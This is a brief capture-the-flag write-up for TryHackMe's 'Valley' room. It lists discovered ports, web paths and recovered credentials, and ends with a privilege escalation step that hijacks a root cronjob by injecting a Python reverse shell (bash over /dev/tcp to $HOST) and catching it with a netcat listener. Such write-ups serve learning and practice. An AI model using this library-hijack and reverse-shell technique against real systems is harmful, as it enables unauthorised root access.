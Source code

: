 # Valley

[Valley](https://tryhackme.com/room/valleype)

## Solution

Ports: 22, 80, 37370

HTTP 80
* /gallery
* /pricing
* /static
* /pricing/note.txt
* /static/00
* /dev1243224123123
* /dev1243224123123/devNotes37370.txt

FTP 37370
* Login `siemDev:california`
* 3 pcapng files

siemHTTP2.pcapng
* uname=valleyDev&psw=ph0t0s1234&remember=on

SSH 22:
* Login `valleyDev:ph0t0s1234`
    * sudo -l : nothing
    * env : nothing
    * suid : nothing
* Login `siemDev:california`
    * sudo -l : nothing
* interesting binary: /home/valleyAuthenticator (contains username and password)
* Login `valley:liberty123`
    * valley can write to base64.py file that is used in a cronjob by root
    * insert `import os; os.system("/bin/bash -c '/bin/sh -i >& /dev/tcp/$HOST/6969 0>&1'")`
    * locally run `nc -lvnp 6969`
